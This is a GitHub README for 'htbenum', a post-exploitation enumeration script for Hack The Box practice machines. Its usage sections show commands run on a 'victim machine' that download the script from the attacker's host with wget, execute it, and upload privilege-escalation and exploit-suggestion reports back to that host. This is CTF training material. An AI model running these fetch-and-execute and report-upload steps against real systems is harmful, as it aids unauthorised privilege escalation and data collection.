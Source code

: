 # htbenum
*A Linux enumeration script for Hack The Box*

![GitHub](https://img.shields.io/github/license/SolomonSklash/htbenum.svg?style=flat-square)
![Github language](https://img.shields.io/github/languages/top/SolomonSklash/htbenum.svg?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues/SolomonSklash/htbenum.svg?style=flat-square)
![Github contributors](https://img.shields.io/github/contributors/SolomonSklash/htbenum.svg?style=flat-square)

This script is designed for use in situations where you do not have internet access on a Linux host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. I find myself running a similar set of scripts when I get an initial foothold on a Linux box, and this script helps automate the process of downloading the latest version of each enumeration script, making it executable, and running it, as well as sending output to a file for later review. It also has a builtin web server to host the tools and upload reports back to the host machine.

**Pull requests/suggestions welcome!**

![](screenshot01.png)

### Features
* 5 different enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Builtin webserver for hosting tools and uploading completed reports
* Automatic tool download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both
* Checks for Python 2 and 3 and lets you know which scripts will be skipped if Python is missing

### Usage
```
./htbenum.sh [-u] -i IP -p port [-o directory] [-w] [-r]

Example:
         Host machine: root@kali:~/htbenum# ./htbenum.sh -u
         Host machine: root@kali:~/htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w
         Victim machine: www-data@victim:/tmp$ wget http://10.10.14.1:80/htbenum.sh
         Victim machine: www-data@victim:/tmp$ chmod +x ./htbenum.sh
         Victim machine: www-data@victim:/tmp$ ./htbenum.sh -i 10.10.14.1 -p 80 -r

 Parameters:
         -h - View help and usage.
         -i IP - IP address of the listening web server used for upload and download.
         -p port - TCP port of the listening web server used for upload and download.
         -o directory - Custom download and report creation directory (default is /tmp).
         -w - Start builtin web server for downloading files and uploading reports.
         -u - Update to the latest versions of each tool, overwriting any existing versions.
         -r - Upload reports back to the host machine web server (must support PUT requests).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/SolomonSklash/htbenum
root@kali:~# cd htbenum
root@kali:~/htbenum#  ./htbenum.sh -u
_   _ ___________ _____ _   _ _   ____  ___
| | | |_   _| ___ \  ___| \ | | | | |  \/  |
| |_| | | | | |_/ / |__ |  \| | | | | .  . |
|  _  | | | | ___ \  __|| . ` | | | | |\/| |
| | | | | | | |_/ / |___| |\  | |_| | |  | |
\_| |_/ \_/ \____/\____/\_| \_/\___/\_|  |_/

By Solomon Sklash - solomonsklash@0xfeed.io 

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/htbenum#  
```

Then, start the builtin web server to host the tools and receive the completed reports. The server requires Python 3. You can use you own web server to host the tools, but it will need to support PUT requests for the report uploads.

```
root@kali:~/htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w
```

Finally, upload the `htbenum.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. You can also optionally upload the reports back to the host machine. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/htbenum.sh
www-data@htb:/tmp$ chmod +x ./htbenum.sh
www-data@htb:/tmp$ ./htbenum.sh -i 10.10.14.1 -p 80 -r
```
Each tool will send its output to a report file in the same directory as the `htbenum.sh` script, or whatever directory is specified by the `-d` parameter.
